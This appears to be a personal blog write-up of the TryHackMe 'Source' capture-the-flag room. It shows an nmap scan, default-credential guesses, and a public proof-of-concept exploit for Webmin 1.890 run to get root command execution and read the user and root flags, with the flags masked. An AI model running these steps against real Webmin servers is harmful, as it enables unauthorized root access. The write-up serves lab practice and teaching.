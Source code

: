 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-18-TryHackMe-Ninja_Skills/Source.png
---
```


# Enumeration

## Nmap Scan

I start with exporting the target machine IP adress as a enviroment variable:

```bash
export IP=10.10.178.7
```

And running `nmap` scan on the target:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

There is a open port `10000` for http running Webmin. So I `curl` the page first.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

But site is not working on http so I try http.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

And It's using self-signed certificates. I guess using browser is better from there.
So I hop into my browser and go the path with https.
![Desktop View](/assets/img/2025-06-18-TryHackMe-Ninja_Skills/photo1.png){: width="972" height="589" }

## Trying to log in as a admin

Like everyone I tried:

- admin:admin
- admin:password

But these didn't worked out. So I googled the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

After that I checked webmin version the server was runnning:

```text
|_http-server-header: MiniServ/1.890
```

And googled the version for any CVE's. And I found one, also found a script that exploits that security vulnerability. Here's the github repo for the script: <https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py>

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And we got access with root.

## Gaining Flags

For user:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

For root:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

Easy as that. Thanks you for reading my solution.
